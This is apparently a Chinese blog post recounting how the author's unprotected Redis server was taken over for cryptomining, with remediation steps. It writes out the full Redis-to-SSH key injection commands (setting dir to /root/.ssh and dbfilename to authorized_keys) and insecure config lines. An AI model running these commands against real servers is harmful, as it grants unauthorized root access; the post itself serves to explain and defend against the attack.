







Redis挖矿分析
为什么当你学习Redis，发现自己的服务器在挖矿了
在我学习Redis时，因为嫌麻烦就没有设置密码，结果导致一段时间后系统提醒我，我的服务器上有挖矿行为，如果不清理就停止运行，我一脸懵逼，并不断上网查找哪里出现问题了，但最终还是没有解决，无奈下我初始化了服务器。希望本篇文章能对你有锁帮助，顺利让你体会到入侵自己服务器的感觉。
你是如何连接服务器的？
在最初我们购买好自己的服务器后，要么在服务器厂商页面进行安全连接，要么通过SSH 用户名@密码方式进行连接，例如下图：

但到后面我们发现每次都需要输入密码，也太麻烦了，可以利用秘钥登陆服务器。那如何获取到你的秘钥呢？
客户端通过命令行模式输入：
ssh-keygen生成自己的公钥和私钥（这里可以指定参数，具体自己查）。
手动将客户端的公钥放入远程服务器的指定位置,/root/.ssh/authorized_keys。

现在我们再通过ssh进行登陆，可以看到直接登陆到服务器了

那说了这么多，我们发现只要服务器上有你的秘钥，你就可以直接进行登陆，不需要设置密码。那这和Redis有啥关系呢？
你是如何连接Redis的？
通常有三种：
- 在服务器中使用
redis-cli进行操作 - 在代码中连接使用
- 在本地远程连接使用：
redis-cli -h IP地址
而我们最长使用的就是使用代码进行连接，因此需要修改Redis的配置文件。来运行我们远程访问。修改一下参数：
protected-mode nobind 0.0.0.0
如果你忘了设置密码了，当Redis重新加载配置文件后，理论上你能访问到的同时，别人只要知道你的IP地址，也就能操作你的Redis了，下图显示本地可以直接访问，并进行操作了。

接下来我们对Redis存储一些值，输入：cat 你的公钥本地地址 | redis-cli -h 服务器IP地址 -x set crackit

通过上面的指令，我们已经成功的将公钥值放入Redis中了，并可以查询到。
192.168.1.11:6379> config set dir /root/.ssh/ 配置地址设置
OK
192.168.1.11:6379> config get dir
- “dir” 2) “/root/.ssh”
192.168.1.11:6379> config set dbfilename “authorized_keys”
OK
192.168.1.11:6379> save
OK
上面相当于把你redis中存储的值直接保存到了/root/.ssh/authorized_keys 这个文件里,这不就是我们远程连接设置秘钥的地方嘛，我草！！！，所以这时候你的服务器已经可以让别人进出无阻了，想干嘛干嘛了。关键这不是最恶心人的。当服务器厂商对你提醒后，你去检查你的秘钥，发现真的多出来一个，你想删却发现没有权限。如果运气好你可以在定时任务中找到莫名奇妙的任务，你删掉，但并没什么用，相当于你家大门已经没有了，你疯狂的上网搜索，发现可以用chattr来修改文件权限，但惊奇的发现chatter这个指令不存在，是的，人家把你的大砍刀也直接顺走了。我们一步步来解决。
首先我们需要chatter来修改文件属性，但是显示指令不存在
- 使用：
yum -y install e2fsprogs,但是可能显示该包已经存在 - 直接：
yum remove e2fsprogs卸载之前的，然后从新下载。
- 使用：
这时候看chatter应该是可以用了
使用：
lsattr authorized_keys，去检查该文件
如果是这种情况说明文件已经被锁定了，我们使用：
chattr -ia authorized_keys也就是去掉这两个属性。
这时候该文件已经可以被chmod修改权限了，使用
chmod 777 authorized_keys如果上面都没问题，使用：
rm -f authorized_keys直接删除。最后检查定时任务之类的。
总结
由于攻击是我亲身经历的，让我们烦恼了好一阵子，所以在这里写下来，希望能对你有所帮助。不要在服务器上尝试我上述的打开Redis权限的步骤，因为你大概率十分钟之内就被攻击了。别不信，我就是这么被攻击的。